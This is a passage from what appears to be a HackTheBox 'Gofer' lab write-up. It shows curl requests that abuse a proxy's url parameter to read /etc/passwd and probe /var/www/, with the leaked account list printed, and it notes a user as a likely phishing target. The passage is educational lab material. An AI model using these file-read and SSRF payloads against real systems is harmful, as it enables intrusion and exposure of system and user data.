 
```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Gofer]
└──╼ $curl -X POST http://proxy.gofer.htb/index.php?url=file:/etc/passwd
<!-- Welcome to Gofer proxy -->
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
jhudson:x:1000:1000:Jocelyn Hudson,,,:/home/jhudson:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
postfix:x:106:113::/var/spool/postfix:/usr/sbin/nologin
jdavis:x:1001:1001::/home/jdavis:/bin/bash
tbuckley:x:1002:1002::/home/tbuckley:/bin/bash
ablake:x:1003:1003::/home/ablake:/bin/bash
tcpdump:x:107:117::/nonexistent:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

So I have LFI and SSRF wherever I want permitting I don't trip one of the hard coded filters. Inside of passwd we can see that Jocelyn who likes to click every link from their email is jhudson as a user, and presumably **jhudson@gofer.htb** for email address. There was another odd response where if I try to read a directory that exists it ends the response with a 1.

If I really wanted to here I could make a scanner to completely brute force the readable filesystem for jhudson and recreate the environment in it's totality, or scan every single process but for now I should take the easier approach.


```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Gofer]
└──╼ $curl -X POST http://proxy.gofer.htb/index.php?url=file:/var/www/
<!-- Welcome to Gofer proxy -->
1
```
